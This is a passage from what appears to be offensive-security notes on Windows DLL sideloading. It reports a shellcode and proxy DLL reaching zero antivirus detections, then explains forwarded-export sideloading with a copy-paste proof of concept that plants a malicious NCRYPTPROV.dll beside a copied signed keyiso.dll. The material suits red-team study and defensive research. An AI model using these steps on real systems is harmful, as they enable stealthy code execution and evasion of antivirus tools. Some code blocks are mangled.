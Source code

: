 
```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```
```
These are the results:

![[../images/dll_sideloading_demo.gif|]]


Both our shellcode (encoded with [[https://github.com/EgeBalci/sgn)) and the proxy DLL have a 0/26 Detection rate in [antiscan.me](https://antiscan.me|SGN]]! I would call that a success.

![[../images/image (193).png|]]


> [!TIP]
> I **highly recommend** you watch [[https://www.twitch.tv/videos/1644171543) about DLL Sideloading and also [ippsec's video](https://www.youtube.com/watch?v=3eROsG_WNpE|S3cur3Th1sSh1t's twitch VOD]] to learn more about what we've discussed more in-depth.

### Abusing Forwarded Exports (ForwardSideLoading)

Windows PE modules can export functions that are actually "forwarders": instead of pointing to code, the export entry contains an ASCII string of the form `TargetDll.TargetFunc`. When a caller resolves the export, the Windows loader will:

- Load `TargetDll` if not already loaded
- Resolve `TargetFunc` from it

Key behaviors to understand:
- If `TargetDll` is a KnownDLL, it is supplied from the protected KnownDLLs namespace (e.g., ntdll, kernelbase, ole32).
- If `TargetDll` is not a KnownDLL, the normal DLL search order is used, which includes the directory of the module that is doing the forward resolution.

This enables an indirect sideloading primitive: find a signed DLL that exports a function forwarded to a non-KnownDLL module name, then co-locate that signed DLL with an attacker-controlled DLL named exactly as the forwarded target module. When the forwarded export is invoked, the loader resolves the forward and loads your DLL from the same directory, executing your DllMain.

Example observed on Windows 11:

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```
```
`NCRYPTPROV.dll` is not a KnownDLL, so it is resolved via normal search order.

PoC (copy-paste):
1) Copy the signed system DLL to a writable folder
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
```2) Drop a malicious `NCRYPTPROV.dll` in the same folder. A minimal DllMain is enough to get code execution; you do not need to implement the forwarded function to trigger DllMain.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
```